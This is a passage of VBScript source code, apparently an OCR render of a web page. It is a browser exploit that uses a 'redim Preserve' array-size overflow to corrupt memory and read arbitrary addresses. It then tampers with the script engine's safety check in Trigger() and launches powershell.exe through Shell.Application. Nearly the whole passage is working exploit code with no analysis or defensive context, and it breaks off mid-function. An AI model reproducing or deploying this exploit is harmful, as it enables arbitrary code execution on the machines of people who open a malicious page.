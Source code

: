 ```html
    redim  Preserve arrayA(arraySize)
end function

function RunWin32Exe()
    On Error Resume Next
    set shell=createobject("Shell.Application")
    shell.ShellExecute "powershell.exe"
end function

function Trigger()
    On Error Resume Next

    pCScriptEntryPoint = setCScriptEntryPoint()

    pAddr = readMemory(pCScriptEntryPoint + 8)
    pAddr = readMemory(pAddr + 16)

    for offset = 0 to &h60 step 4
        progId = readMemory(pAddr + &h120 + offset)
        if(progId = 14) then
            redim  Preserve arrayA(overSize)
            arrayA(arraySize + 4)(pAddr + &h11c + offset) = arrayB(4)
            redim  Preserve arrayA(arraySize)
            Exit for
        end if
    next
    RunWin32Exe()
end function

sub testfunc()
end sub

function setCScriptEntryPoint()
    On Error Resume Next
    myarray = chrw(01)&chrw(2176)&chrw(01)&chrw(00)&chrw(00)&chrw(00)&chrw(00)&chrw(00)
    myarray = myarray&chrw(00)&chrw(32767)&chrw(00)&chrw(0)

    pScriptEntryPoint = testfunc
    pScriptEntryPoint = null
    Msgbox "waiting for debug"
    IsEmpty(arrayA)
    IsEmpty(arrayB)
    redim  Preserve arrayA(overSize)
    arrayB(0) = 0
    arrayA(arraySize + 2) = pScriptEntryPoint
    arrayB(0) = 6.36598737437801E-314
    arrayA(arraySize + 4) = myarray
    arrayB(2) = 1.74088534731324E-310
    setCScriptEntryPoint = arrayA(arraySize + 2)
    redim  Preserve arrayA(arraySize)
end function

function Over()
    On Error Resume Next
    dim type1
    Over = False

    arraySize = arraySize + index
    overSize = arraySize + &h8000000

    redim  Preserve arrayA(arraySize)
    redim  arrayB(arraySize)
    redim  Preserve arrayA(overSize)
```